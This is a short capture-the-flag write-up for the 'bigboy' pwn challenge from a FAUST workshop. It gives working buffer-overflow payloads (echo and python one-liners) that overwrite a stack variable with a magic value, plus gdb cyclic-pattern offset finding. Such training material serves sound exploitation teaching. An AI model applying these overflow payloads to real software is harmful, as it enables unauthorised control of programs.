

# FAUST Workshop

## pwn

### bigboy



It's a simple buffer overflow. `iStack_24` needs to be overwritten with `0xcaf3baee`.

**Solution 1:**
```bash
cat <(echo -ne '\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xee\xba\xf3\xca') - | ./boi
```

**Solution 2:**
```bash
cat <(python -c 'import sys; sys.stdout.buffer.write(b"\x41" * 20 + b"\xee\xba\xf3\xca")') - | ./boi
```

**Solution 3:**

Find offset with cyclic pattern and `gdb-gef`
```bash
$ ./gdb -q ./boi
$ break *0x00000000004006a8
$ !pwn cyclic -n 4 50 > pattern.txt
$ run < pattern.txt
$ !pwn cyclic -n4 -l 0x61616166
20
```

Solve with `pwntools`: [exploit.py](./boi/exploit.py)
